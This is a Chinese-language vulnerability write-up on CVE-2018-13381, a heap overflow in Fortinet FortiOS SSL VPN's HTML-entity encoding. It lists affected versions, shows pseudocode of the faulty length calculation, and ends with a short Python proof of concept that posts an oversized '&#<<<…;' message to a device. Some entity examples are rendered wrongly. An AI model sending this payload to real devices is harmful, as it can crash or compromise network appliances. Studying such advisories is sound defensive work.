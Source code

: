 （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞
=================================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS
6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

二、漏洞影响
------------

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

三、复现过程
------------

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为
`<`，占用5个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：

    c = token[idx];
    if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
        cnt += 5;
    else if(c == '&' && html[idx+1] == '#')
        cnt += len(strchr(html[idx], ';')-idx);

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

    switch (c)
    {
        case '<':
            memcpy(buf[counter], "&#60;", 5);
            counter += 4;
            break;
        case '>':
        // ...
        default:
            buf[counter] = c;
            break;
        counter++;
    }

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的6个字节长得多，从而导致堆溢出。PoC：

    import requests

    data = {
        'title': 'x', 
        'msg': '&#' + '<'*(0x20000) + ';<', 
    }
    r = requests.post('https://www.0-sec.org:4433/message', data=data)
